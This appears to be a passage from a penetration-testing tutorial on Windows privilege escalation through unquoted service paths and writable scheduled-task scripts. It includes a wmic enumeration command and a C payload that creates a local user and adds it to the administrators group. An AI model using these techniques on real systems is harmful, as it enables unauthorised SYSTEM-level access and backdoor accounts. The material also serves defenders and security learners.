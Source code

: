 ## Unquoted Service Paths

When a **Windows service** is installed with an **unquoted path** and the path contains **spaces**, Windows does **not know where the executable truly begins and ends** unless quotes (`"`) are used. It will **try to execute each potential path segment** until it finds a matching file. If one of these path segments is **writable by a low-privilege user**, you can place a **malicious executable** there, which will get executed with **SYSTEM privileges** the next time the service starts.

<details><summary>What Windows will try to do</summary></details>

**To exploit this**:

* There must be an `unquoted service path` with spaces in it.

    ```dos
    wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
    ```

* One of the earlier-resolved paths must be `writable` by a low-privileged user. To check access rights, use `icacls` in each path. 
* You must be able to `create a malicious executable` in that path.

    ```C
    #include <stdlib.h>
    int main ()
      {
        int i;
        i = system ("net user testuser somepassword /add");
        i = system ("net localgroup administrators testuser /add");
      }
    ```

* The service must `restart` (manually or through a system reboot).


---

## Scheduled Tasks

Scheduled Tasks (a.k.a. Task Scheduler) are Windows components that let administrators schedule programs or scripts to **run automatically** at specific times or under certain conditions (like at login, boot, idle, etc.).

If a task runs something like:

```xml
<Action>
  <Exec>
    <Command>C:\Scripts\Backup.bat</Command>
  </Exec>
</Action>
```

… and `C:\Scripts\Backup.bat` is **writable by a low-priv user**, you can overwrite it with a malicious payload.
